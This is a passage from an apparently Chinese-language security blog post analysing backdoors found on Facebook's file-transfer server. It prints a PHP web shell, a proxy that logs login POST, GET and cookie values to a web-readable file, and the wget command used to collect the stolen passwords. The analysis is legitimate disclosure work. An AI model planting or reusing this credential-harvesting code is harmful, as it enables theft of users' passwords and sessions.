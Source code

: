 <div class="highlight-name">d.php</div>
<div class="highlight"><pre><code class="language-php" data-lang="php"><span class="cp">&lt;?php</span> <span class="nx">include_oncce</span><span class="p">(</span><span class="s2">"/home/seos/courier/remote.inc"</span><span class="p">);</span> <span class="k">echo</span> <span class="nx">decrypt</span><span class="p">(</span><span class="nv">$_GET</span><span class="p">[</span><span class="s2">"c"</span><span class="p">]);</span> <span class="cp">?&gt;</span><span class="x"></span></code></pre></div>

<div class="highlight-name">sclient\_user\_class\_standard.inc</div>
<div class="highlight"><pre><code class="language-php" data-lang="php"><span class="cp">&lt;?php</span>
<span class="k">include_once</span><span class="p">(</span><span class="s1">'sclient_user_class_standard.inc.orig'</span><span class="p">);</span>
<span class="nv">$fp</span> <span class="o">=</span> <span class="nb">fopen</span><span class="p">(</span><span class="s2">"/home/seos/courier/B3dKe9sQaa0L.log"</span><span class="p">,</span> <span class="s2">"a"</span><span class="p">);</span>
<span class="nv">$retries</span> <span class="o">=</span> <span class="mi">0</span><span class="p">;</span>
<span class="nv">$max_retries</span> <span class="o">=</span> <span class="mi">100</span><span class="p">;</span>

<span class="c1">// 省略...</span>

<span class="nb">fwrite</span><span class="p">(</span><span class="nv">$fp</span><span class="p">,</span> <span class="nb">date</span><span class="p">(</span><span class="s2">"Y-m-d H:i:s T"</span><span class="p">)</span> <span class="o">.</span> <span class="s2">";"</span> <span class="o">.</span> <span class="nv">$_SERVER</span><span class="p">[</span><span class="s2">"REMOTE_ADDR"</span><span class="p">]</span> <span class="o">.</span> <span class="s2">";"</span> <span class="o">.</span> <span class="nv">$_SERVER</span><span class="p">[</span><span class="s2">"HTTP_USER_AGENT"</span><span class="p">]</span> <span class="o">.</span> <span class="s2">";POST="</span> <span class="o">.</span> <span class="nb">http_build_query</span><span class="p">(</span><span class="nv">$_POST</span><span class="p">)</span> <span class="o">.</span> <span class="s2">";GET="</span> <span class="o">.</span> <span class="nb">http_build_query</span><span class="p">(</span><span class="nv">$_GET</span><span class="p">)</span> <span class="o">.</span> <span class="s2">";COOKIE="</span> <span class="o">.</span> <span class="nb">http_build_query</span><span class="p">(</span><span class="nv">$_COOKIE</span><span class="p">)</span> <span class="o">.</span> <span class="s2">"</span><span class="se">\n</span><span class="s2">"</span><span class="p">);</span>

<span class="c1">// 省略...</span></code></pre></div>

前幾個就是很標準的 PHP 一句話木馬  
其中比較特別的是 "**sclient\_user\_class\_standard.inc**" 這個檔案  

include_once 中 "**sclient\_user\_class\_standard.inc.orig**" 為原本對密碼進行驗證的 PHP 程式，駭客做了一個 Proxy 在中間並在進行一些重要操作時先把 GET, POST, COOKIE 的值記錄起來  

整理一下，駭客做了一個 Proxy 在密碼驗證的地方，並且記錄 Facebook 員工的帳號密碼，並且將記錄到的密碼放置在 Web 目錄下，駭客每隔一段時間使用   wget 抓取

    wget https://files.fb.com/courier/B3dKe9sQaa0L.log


![logged password](/images/blog/20160421/5.jpg)
*↑ Logged passwords*

<br>
